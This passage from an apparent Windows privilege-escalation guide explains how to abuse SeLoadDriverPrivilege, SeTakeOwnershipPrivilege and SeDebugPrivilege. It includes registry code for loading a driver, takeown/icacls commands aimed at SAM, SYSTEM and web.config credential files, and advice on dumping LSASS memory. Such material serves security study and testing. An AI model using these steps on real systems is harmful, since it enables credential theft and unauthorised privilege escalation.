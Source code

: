```python
# Example Python code to set the registry values
import winreg as reg

# Define the path and values
path = r'Software\YourPath\System\CurrentControlSet\Services\DriverName' # Adjust 'YourPath' as needed
key = reg.OpenKey(reg.HKEY_CURRENT_USER, path, 0, reg.KEY_WRITE)
reg.SetValueEx(key, "ImagePath", 0, reg.REG_SZ, "path_to_binary")
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```

More ways to abuse this privilege in [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

This is similar to to **SeRestorePrivilege**. Its primary function allows a process to **assume ownership of an object**, circumventing the requirement for explicit discretionary access through the provision of WRITE_OWNER access rights. The process involves first securing ownership of the intended registry key for writing purposes, then altering the DACL to enable write operations.

```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```

### SeDebugPrivilege

This privilege permits the **debug other processes**, including to read and write in the memore. Various strategies for memory injection, capable of evading most antivirus and host intrusion prevention solutions, can be employed with this privilege.

#### Dump memory

You could use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) to **capture the memory of a process**. Specifically, this can apply to the **Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service))** process, which is responsible for storing user credentials once a user has successfully logged into a system.
